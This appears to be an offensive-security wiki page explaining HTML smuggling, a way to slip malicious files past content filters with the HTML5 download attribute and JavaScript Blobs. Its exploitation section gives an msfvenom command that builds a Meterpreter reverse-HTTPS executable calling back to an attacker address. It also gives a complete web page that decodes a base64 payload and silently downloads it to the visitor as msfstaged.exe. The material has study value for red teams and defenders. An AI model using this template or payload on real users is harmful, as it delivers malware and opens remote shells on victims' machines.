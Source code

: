 # ⭕ HTML Smuggling

{% embed url="https://outflank.nl/blog/2018/08/14/html-smuggling-explained" %}

{% embed url="https://github.com/Arno0x/EmbedInHTML" %}

Using a combination of HTML5 and JavaScript to sneak malicious files past content filters.This mechanism has been incorporated into popular offensive frameworks such as [Demiguise](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/august/smuggling-hta-files-in-internet-exploreredge/) and [SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) .



## <mark style="color:red;">HTML5 download attribute</mark>

HTML5 introduced the [“download” attribute](https://www.w3schools.com/tags/att\_a\_download.asp) for anchor tags. Consider the following line of HTML, which is supported by all modern browsers:

```html
<a href="/files/doc123.doc" download="myfile.doc">Click</a>
```

When a user clicks on the hyperlink, the download attribute instructs the browser to download the target pointed to by the href attribute and save it to disk as “myfile.doc”. Of course, the anchor and its download attribute can also be created using JavaScript instead of HTML:

```
var myAnchor = document.createElement('a');
myAnchor.download = 'filename.doc';
```

## <mark style="color:red;">Blobs and URLs</mark>

A Blob is an immutable object that represents raw data. Blobs allow you to construct file-like objects on the client that you can pass to JavaScript APIs that expect URLs. Instead of requiring that the web server provides the file, the Blob can be constructed locally using pure JavaScript.

```javascript
var myBlob = new Blob([myData], {type: 'octet/stream'});
```

This line creates a Blob of MIME type “octet/stream” and fills is with the data contained in variable myData. We can then use URL.createObjectURL to create a URL from our Blob object and have an anchor point to it:

```javascript
var myUrl = window.URL.createObjectURL(blob);
myAnchor.href = myUrl;
```

Lastly, we can simulate a click on the anchor object using JavaScript’s HTMLElement.click() method:

```javascript
myAnchor.click();
```

This will result in triggering the anchor’s click event, which in turn points to our Blob and which will be downloaded as “filename.doc” (since we specified the download attribute). These features are supported by all major modern browsers. For older versions of Internet Explorer (not Edge) we can revert to the msSaveBlob method to save a Blob object to disk.

## <mark style="color:red;">Exploitation</mark>

First, our Base64 code is placed into an array buffer, byte-by- byte.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe

base64 /var/www/html/msfstaged.exe
```

We’ll then place the array buffer into our Blob. Next, we’ll create a hidden “a” tag. The data from our Blob is then moved to the href reference of our “a” tag. Our Blob code in the href is given the file name of ‘msfnonstaged.exe’. Finally, a click action is performed to download our file. The complete webpage used to trigger the HTML smuggling with the Meterpreter executable is given below:

```html
<html>
    <body>
        <script>
        function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);}
            return bytes.buffer;
        }
        var file ='BASE 64 ENCODED PAYLOAD'
        var data = base64ToArrayBuffer(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'msfstaged.exe';
        var a = document.createElement('a');
        document.body.appendChild(a);
        a.style = 'display: none';
        var url = window.URL.createObjectURL(blob);
        a.href = url;
        a.download = fileName;
        a.click();
        window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```
